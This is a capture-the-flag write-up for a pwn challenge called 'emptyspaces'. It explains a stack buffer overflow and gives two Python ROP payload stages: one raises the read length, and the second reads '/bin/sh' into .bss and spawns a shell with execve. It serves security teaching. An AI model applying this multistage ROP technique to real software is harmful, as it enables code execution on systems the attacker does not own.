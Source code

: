 # emptyspaces

## Disassemble and Decompilation

![Empty Spaces Main](../../assets/emptyspaces/main.png)

As we can see the input string is 64 bytes long and the read is reading 137, thus we have a BO. The problem is that after the overflow of the buffer and the sEBP we have just 137-64-8=65 bytes that are not enough for a rop chain where we first read the string '/bin/sh' and then call execve.

## Solution

The idea is to use a multistage rop chain exploit. First we use a rop chain to set the RDX register to 0x1000 (arbitrary high value) and then we return to the read in the main. In this way we are rewriting the exact same buffer but we have more bytes for the second stage.

### First Stage

```python
call_main = [
    b'A'*72,
    pop_rdx,
    p64(0x1000),
    main,
]
```

This stage is 96 bytes long, so it fits the 137 bytes read.

### Second Stage

```python
read_execve_payload = [
    b'A'*88,
    pop_rdi,
    p64(0x0),
    pop_rsi,
    bss_addr,
    xor_eax_eax_syscall,
    pop_rax,
    p64(0x3b),
    pop_rdi,
    bss_addr,
    pop_rdx_pop_rsi,
    p64(0x0),
    p64(0x0),
    syscall
]
```

This stage fits the 0x1000 bytes we have set in the RDX register in the first stage. We overflow the buffer and overwrite the sRIP of the read() function. Basically the read() function in the main instead of returning to the main itself, it returns to the pop_rdi gadget. Then the chain begins, a read syscall is called to read the string '/bin/sh' in the bss section, then the execve syscall is called to execute the string '/bin/sh'.

Note that we have two different syscall gadgets. This is because the xor_eax_eax_syscall gadget is used to set the RAX register to 0x0, while the last syscall gadget is a terminator syscall, meaning that it will never return.

The complete exploit is in [script.py](script.py).
